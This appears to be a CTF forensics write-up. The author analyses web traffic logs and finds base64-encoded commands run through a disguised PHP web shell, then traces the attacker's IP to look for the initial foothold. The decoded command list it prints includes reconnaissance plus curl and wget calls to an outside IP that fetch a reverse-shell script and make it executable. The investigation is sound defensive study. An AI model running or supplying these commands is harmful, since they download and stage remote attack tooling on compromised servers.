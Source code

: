 We have **two files**, one containing network **traffic logs** and the other containing **commands history**.
I start with the traffic logs and take a look at the IP addresses requests statistics, none of them seems to stand out. I also check the other available fields such as reponses codes, methods, etc...

Globally, the statistics do not give me more clue. The thing I should have done is to look at the big picture and notice packet traffic spikes... (I still managed to find my way through).

<br><br><br>
# Traffic : Filters for commands execution in requests

Since there is **too much noise**, I decide to apply a very basic **filter** that searches for specific keywords typically used by attackers in their requests (in a real scenario, I think this filter would still show too much noise, but it is a CTF so I give it a try).

![Filter requests](../../assets/images/DGS3-CTF/Mission2-filter-requests.png)

I luckily found very few results

![Filter requests](../../assets/images/DGS3-CTF/Mission2-filter-requests-results.png)

These requests execute commands, encoded in Base64, via a file named `ev1l.php.png`. Decoding them gives these commands in clear text :
```bash
ls -la
whoami
pwd
ping -c 1 google.com
curl http[:]//163.172.67.201:49999/
wget http[:]//163.172.67.201:49999/s1mpl3-r3vsh3ll-vps.sh
chmod +x s1mpl3-r3vsh3ll-vps.sh
```

**Info Notice:** Note that the IP addresses you see have been voluntarily obfuscated with brackets [] as we usually do in reports sharing artifacts
{: .notice--info}

This way of executing commands is very **suspicious**, moreover, the commands ping an IP address, download a script and give them execution permission (it is probably a tool for further attack steps).
Here we obtained the **IP address the tools are from** which is the **element #3 : `163[.]172.67.201`**

We now have the precise time when the initial foothold happened, we have to look for earlier events to find the two vulnerabilities that allowed it.

<br><br><br>
# Traffic : Looking for the initial foothold

## Content discovery
I put the filter to get the requests from the IP address that executed the commands (```10[.]143.17.101```) a few minutes before, I notice dozens GET requests for multiple directories like in this example :


[mission1]: https://silkyheldi.github.io/TheWatchNode/ctf/dgse-ctf-2025-m1/
[ffuf]: https://github.com/ffuf/ffuf
[LFI]: https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
[cwe-98]: https://cwe.mitre.org/data/definitions/98.html
[cwe-434]: https://cwe.mitre.org/data/definitions/434.html
[filter-part]: https://silkyheldi.github.io/TheWatchNode/ctf/dgse-ctf-2025-m2#filters-for-commands-execution-in-requests